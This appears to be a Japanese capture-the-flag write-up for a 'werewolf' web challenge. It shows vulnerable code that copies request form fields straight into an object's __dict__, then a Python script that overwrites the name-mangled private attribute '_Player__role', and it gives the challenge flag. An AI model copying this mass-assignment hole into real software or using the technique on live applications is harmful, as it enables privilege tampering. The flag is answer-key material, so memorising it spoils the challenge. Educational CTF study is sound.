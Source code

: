 # werewolf

配布されたpythonのコードを読み込む

```python
class Player:
    def __init__(self):
        self.name = None
        self.color = None
        self.__role = random.choice(['VILLAGER', 'FORTUNE_TELLER', 'PSYCHIC', 'KNIGHT', 'MADMAN', 'WEREWOLF'])
```
```python
for k, v in request.form.items():
    player.__dict__[k] = v

```
上記のPlayerクラスのプライベート関数の__roleを手に入れたい  
[Pythonのプライベート変数の振る舞いについて](https://qiita.com/marmalade_boy/items/dd78c460ceb639c023ad)

こちらを読んで理解したので回答のコードを書く

<details><summary>回答コード一覧</summary><div>
    
```python
import requests

def request():
    data = {
        'name': 'test',
        'color': 'YELLO',
        '_Player__role': 'WEREWOLF'
    }
    
    req = requests.post('{url}', data=data)
    body = req.content.decode()
    print(body)
    
if __name__ == '__main__':
    request()
```
<div>
</details>

<details><summary>flag</summary><div>
ctf4b{there_are_so_many_hackers_among_us}
</div></details>
